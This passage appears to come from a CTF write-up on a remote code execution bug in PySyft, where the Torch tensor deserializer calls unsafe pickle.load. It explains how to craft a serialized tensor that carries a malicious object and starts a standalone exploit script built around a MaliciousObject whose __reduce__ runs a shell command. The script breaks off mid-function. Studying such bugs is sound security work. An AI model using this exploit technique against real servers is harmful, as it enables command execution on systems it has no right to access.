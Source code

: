 The idea behind these changes is clever. The author saved a lot of work. Chaning the function that serializes the `Torch object` to serialize a malicious object gave him the ability to exploit the bug without worrying about all the previous things that I've explained. To make it work, he just had to execute the code provided by the CTF that creates a Torch tensor that, in the end, when serialized FIRST will contain the malicious object.

This approach works, but I wanted to accomplish two more goals:

1) Understand the bug better
2) Write an exploit without dependencies from `Pysyft` or `Torch`

So, I decided to write my own exploit.

### Full standalone exploit

To accomplish this I started with a real Torch.Tensor object and followed how it was serialized and processed until transmitted.

I found that the object can be representend like this:

```Python
torch_tensor_simplified = (14, (4474411590, <Torch_Tensor_Object_Pickled>, None, None, None, None, (5, (b'torch',)))) 
```

After analyzing the code I learned that:

* 14 tells the code that the following object should be interpreted as a Torch.Tensor. This can be confirmed in <syft/serde/msgpack/serde.py> function _"\_detail"_. If you check the documentation it will point you to the following [file](https://github.com/OpenMined/syft-proto/blob/master/proto.json).


```json
{
  "_DOC": "This file defines PySyft protocol serialization constants",
  "VERSION": 0,
  "TYPES": {
    ...
    },
    "torch.Tensor": {
      "code": 14
    },
    ...
```

* The next constant is an ID, I left it without changes

* String __torch__ tells the code what deserializer should be used. This is key for us, as the Torch deserializer is the vulnerable one using the unsafe `pickle.load` function

Based on these points and taking the `Torch.Tensor` object we can craft our exploit as follows:

```Python
import argparse
import asyncio
import binascii
import lz4.frame
import msgpack
import pickle
import websockets


class MaliciousObject(object):
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        import os
        import subprocess
        if os.name == 'posix':
```